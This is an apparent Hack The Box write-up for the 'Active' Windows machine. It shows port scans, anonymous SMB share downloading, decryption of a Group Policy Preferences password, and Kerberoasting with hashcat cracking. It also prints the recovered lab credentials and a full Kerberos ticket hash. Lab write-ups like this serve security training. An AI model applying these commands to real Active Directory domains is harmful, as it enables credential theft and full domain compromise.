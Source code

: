 #CTF/HTB/Windows/Easy

# Given

> Active is an easy to medium difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.

## IP

10.10.10.100

# Steps

## Enumeration

I started off with `rustscan` to see what ports are open, and this gave me a decent idea of what services were running on this machine.

```bash
PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack ttl 64
88/tcp    open  kerberos-sec   syn-ack ttl 64
135/tcp   open  msrpc          syn-ack ttl 64
139/tcp   open  netbios-ssn    syn-ack ttl 64
389/tcp   open  ldap           syn-ack ttl 64
445/tcp   open  microsoft-ds   syn-ack ttl 64
464/tcp   open  kpasswd5       syn-ack ttl 64
593/tcp   open  http-rpc-epmap syn-ack ttl 64
636/tcp   open  ldapssl        syn-ack ttl 64
5722/tcp  open  msdfsr         syn-ack ttl 64
9389/tcp  open  adws           syn-ack ttl 64
49152/tcp open  unknown        syn-ack ttl 64
49153/tcp open  unknown        syn-ack ttl 64
49154/tcp open  unknown        syn-ack ttl 64
49155/tcp open  unknown        syn-ack ttl 64
49157/tcp open  unknown        syn-ack ttl 64
49158/tcp open  unknown        syn-ack ttl 64
49165/tcp open  unknown        syn-ack ttl 64
49166/tcp open  unknown        syn-ack ttl 64
49168/tcp open  unknown        syn-ack ttl 64
```

The `nmap` scan I had running in the background gave me some version info, filled in the blanks on some of the 'unknown' services.

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-20 03:21:27Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

Some key points about this machine are

- Target is running Windows Server 2008 R2 SP1
- Services running:
	- DNS (53)
	- Kerberos (88)
	- RPC (135)
	- SMB (139, 445)
	- LDAP (389, 3268)
	- HTTP (47001)
- Hostname is DC so this is possibly the Domain Controller.

SMB is the easiest one to test without credentials, so I checked for anonymous user access with `netexec`.

![](Assets/Pasted%20image%2020250720120505.png)

From that I saw a total of 7 shares, and 'Replication' could be read with out level of access. There were some things inside it, so I used netexec to download everything inside the share.

```bash
nxc smb 10.10.10.100 -u '' -p '' -M spider_plus -o DOWNLOAD_FLAG=True
```

I Managed to get 2 folders with some policy info, which made me think of Group Policy Preferences. 

![](Assets/Pasted%20image%2020250720122804.png)

## Cracking GPP

**GPP TLDR** 
Group Policy Preferences are config settings that domain admins can enforce on local admins/users across a domain. 
When a new Group Policy Preference (GPP) is created, an xml file is stored on the SYSVOL with its config data. However the password in that xml file (cpassword) is encrypted with MS AES. Not that cracking it is a problem after MS published the key. 

I looked at the `Groups.xml` file, and managed to get some creds that could be of use.

![](Assets/Pasted%20image%2020250720122548.png)

Since I knew we were dealing with a GPP hash, I used `gpp-decrypt` to crack the hash, and I ended up with the password to the user account `SVC_TGS`.

![](Assets/Pasted%20image%2020250720133446.png)

I got excited about this, and kept trying to get a shell into the system here. But things didn't work out. After a while, I went back to looking at what this account could access. SMB.

This time I could read more shares. I decided to look at the Users share first. That got me to this user's Desktop, where I found the user flag.

![](Assets/Pasted%20image%2020250720144629.png)

## Getting Admin

Since this is an AD environment, I cold check for kerberoastable accounts using `impacket-GetUserSPNs`. Alternatively I could use `netexec` to try and grab a kerberos hash from a roastable account. However, there's the clock skew to deal with here, and that could easily be countered with faketime in case ntpdate doesn't work.

I found out that the Administrator account was kerberoastable, and then I got the kerberos hash from it.

![](Assets/Pasted%20image%2020250720151013.png)

The next step when I had a hash on hand was to identify it. I decided to use hashcat, because I needed to get the correct mode for the job.

![](Assets/Pasted%20image%2020250720152019.png)

Ran`hashcat -m 13100 -a 0 -o admin.cracked.txt loot/admin.krb.hash /usr/share/wordlists/rockyou.txt`, which got me the Admin password.

![](Assets/Pasted%20image%2020250720152611.png)

Tested it out with smb, and it works. I can log in as Administrator.

![](Assets/Pasted%20image%2020250720153216.png)

Just like the last time, I used `smbclient` to interact with the SMB service. This time as the Administrator. The root flag was on the desktop.

```bash
┌──(root㉿docker-desktop)-[/host_data]
└─# smbclient \\\\10.10.10.100\\Users -U administrator
Password for [WORKGROUP\administrator]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 14:39:20 2018
  ..                                 DR        0  Sat Jul 21 14:39:20 2018
  Administrator                       D        0  Mon Jul 16 10:14:21 2018
  All Users                       DHSrn        0  Tue Jul 14 05:06:44 2009
  Default                           DHR        0  Tue Jul 14 06:38:21 2009
  Default User                    DHSrn        0  Tue Jul 14 05:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 04:57:55 2009
  Public                             DR        0  Tue Jul 14 04:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 15:16:32 2018

5217023 blocks of size 4096. 278484 blocks available
```

# Creds

**Groups.xml**
`SVC_TGS : edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ : GPPstillStandingStrong2k18`

**Administrator kerberos hash**

```bash
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb\Administrator*$0a8b0f16cbd7dacd1dca8c5688e5b5be$71d27a8950563cd5a294b87ba1b6591c0afd5c
486a740fd3cad3892497312e7349693778bcd6b7d9a7c13cde751e07fc8917ab2e9acf0f2da90c6416f000f89475ba08a90c8604dae7f57bd8215275a5d76f185379dfb34b4189ae5cb8c96f870aef1679432bcf81cbfad9bc0ece74a07
f77461b94e254bb2c71d616bfa07cf4e59a8a04516e4c764fbfce60b13d6d9de36eee57805bfbb7cc0d9a291da54b02cbb6b4d4c1902b0d7418c44dc5559d927c25307850f91f1585a77befb2b06c7d654d5b19f61c491d64c037cd5e02
c404764e10f0f22d2b11f9952fee4f6263ea11b9c5a89b0051beba5ff69c2ae0eb215419f96a6b9440ebdfae217a8ca3373560ae639950c426323e642a39bacefb97f3733c26dedeb2ffb3d880d528aaca99b21094cd5847a6c72b85e95
6dcc04a1331f83cf0999b89ea804a8fe7caa0a34c2dd346aa266d63f48eb837d454609610643d76b6c9ad779f549fea08c16ba7f10d5a1a20389c836589403e5dcef09a0cd99cfaf62cb121962de037e535cc34ba9fd792d9e890b80db9
a733df10eb1f8265fb296caa57e971cf092fdf02bba7f90007e21d33f191429cac49fae1e43047505cfdd220da0698a42a531266400985f4d90543c1eec0ddd627f27425a40cfbba1633858e62b81260622c458c103a5fdcd78977f998f
7bca04cb7c1974505a17bf43b995658f22537061567e46c9d5b3e0234ae56bb55b7f89ca29fb11acdb15379315fff69f97dc2e479d77927c81403aa6080b261f60da4bca52bd60de56fe53a78a87f5c8306f26cda40dafbd01249433724
d1b496912f3ec47927b7c7af5bb6160b12483de4829c8d0dfc264d77a64d3ce6d2fe671866d8132058f3c8d2988c795936c27b839db7de3deae1ccfd917b6561e3d1be725e69d82afc631ae00661c9d3fbf9e8bcfa114d0634341e56cd0
f9ae1cb9a9479b742eb9309329e7ce0df037aca180be9498e367f6426a2f9143e9bf5c2d6572af2a6b1d4dc42c87d502927df97f4ef6c3d2a98327b3b124436ddb88d1db8c9c2ebcddc75444915f2d4a5c7b09dd779f09a32952b25702c
05db14ff79ac4ea6801a55243902b4789bd8d92bfb7a40732c9845865f13159ba1aa01d0dc7c2e05756b19e481897cc7ae77bec45cbd7d7795e4c55f22d53a972e80d92f02e60e72771bd492e67beaadf4d12b5c26acc4099e58dd598ff
4a0005fea8668e658ef4883345458ee433a69b8746a96216cc490ef3626
```

**Administrator Password**
`Ticketmaster1968`

# Proof

![](Assets/Pasted%20image%2020250720144918.png)

![](Assets/Pasted%20image%2020250720153541.png)

# References

https://pentestlab.blog/2017/03/20/group-policy-preferences/

https://www.thehacker.recipes/ad/movement/credentials/dumping/group-policies-preferences